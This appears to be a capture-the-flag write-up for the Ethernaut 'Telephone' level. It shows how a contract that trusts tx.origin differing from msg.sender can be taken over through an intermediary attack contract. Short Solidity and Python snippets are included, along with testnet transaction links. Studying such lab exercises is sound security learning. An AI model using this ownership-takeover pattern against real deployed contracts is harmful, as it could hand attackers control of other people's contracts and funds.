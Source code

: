 # Telephone

## Objectives

Claim ownership of the contract to complete this level.

## Solution

The function `changeOwner()` compares whether the address that sends the tx (`tx.origin`) is the same as the address that interacts with the contract (`msg.sender`). In this case it isn't, so the owner is changed as per the function's instructions:

```cs
function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
        owner = _owner;
    }
}
```

Therefore, the only thing needed here is a attacking contract which interacts with the original Telephone contract. This way the contract is the `msg.sender` while the address that interacts with the attacking contract is the `tx.origin`.

## How I did it

1. I deployed the contract `TelephoneAttack` (at: `0x756a2E146F4f9659E7c16a90948A09aB09925F19`) which interfaces with the original Telephone contract and calls its `changeOwner()` function as follows:

```cs
function callChangeOwner(address _newOwner) external {
    telephoneContract.changeOwner(_newOwner);
}
```

where `_newOwner` is the address we want to assign as new contract owner for the Telephone contract.

2. Set the instance address and call the function with my account address from which I deployed the attacking contract:

```python
telephoneattack.callChangeOwner(acc.address, _from)  
```

Block explorer: https://rinkeby.etherscan.io/tx/0x20ffc17549522276816942656e14c9fe459064afd3f99e0f851ca555cfb64711

3. Check that we're the new owner

```python
owner_assertion = telephone.owner() == acc.address
print(f'The account owner matches my address: {owner_assertion}')
```

### Submission transaction

Block explorer: https://rinkeby.etherscan.io/tx/0x7c11bb8f65a6117b8f2e17622f3bbdcc81214b8d5daafa41bbbeb54dfc60e4b5
